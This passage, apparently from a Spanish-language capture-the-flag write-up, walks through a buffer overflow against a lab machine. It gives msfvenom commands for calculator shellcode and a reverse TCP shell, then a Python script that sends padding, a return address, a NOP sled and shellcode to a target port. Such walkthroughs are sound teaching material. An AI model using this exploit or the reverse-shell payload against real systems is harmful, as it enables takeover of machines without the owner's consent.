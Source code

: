El siguiente paso a realizar será la creación de la shellcode, en este caso una calculadora, para generarla simplemente se hará uso de msfvenom:

```bash
msfvenom -a x86 -p windows/exec CMD=calc.exe -f c -b '\x00'
```

Aunque también se podrá generar una shell reversa por TCP y de esta manera tomar control de la máquina:

```bash
msfvenom -a x86 -p windows/shell/reverse_tcp LHOST=192.168.1.99 LPORT=9001 -f c -b '\x00 EXITFUNC=thread'
```
> Se utiliza la opción EXITFUNC=thread, esto significa que el código de shell se generará como un hilo remoto en lugar de generar desde el flujo de código original, evitando que el programa se bloquee al finalizar la ejecución.

De esta manera se podrá desarrollar el exploit final. También será necesario añadir instrucciones adicionales de NoP (\x90) que se analizarán después del PUSH ESP, estas instrucciones básicamente dicen: "ir a la siguiente instrucción". Se agregan estos para que la carga útil no se mezcle con otras instrucciones, corrompiéndola:

```python
import socket, sys, struct

shell = ("\x60\xf7\x4f\x62\x59\x83\x4d\x88\x24\x06\x39\xe9\xc9\x9c\x8c"
..snip..
"\x18\x60\x23\x8c\x4b")
buffer = "A"*272 + "\x77\x17\x58\x34"  + "\x90"*20 + shell + "\x00"
# \x77\x17\x58\x34 = 0x34581777

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.88", 1985))
print("Sending payload")
s.send(buffer)
s.close()
```
<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-07-21-Dawn-2-Vanilla-Buffer-Overflow/Pasted%20image%2020210721201618.png" height="500" width="825" /></p>
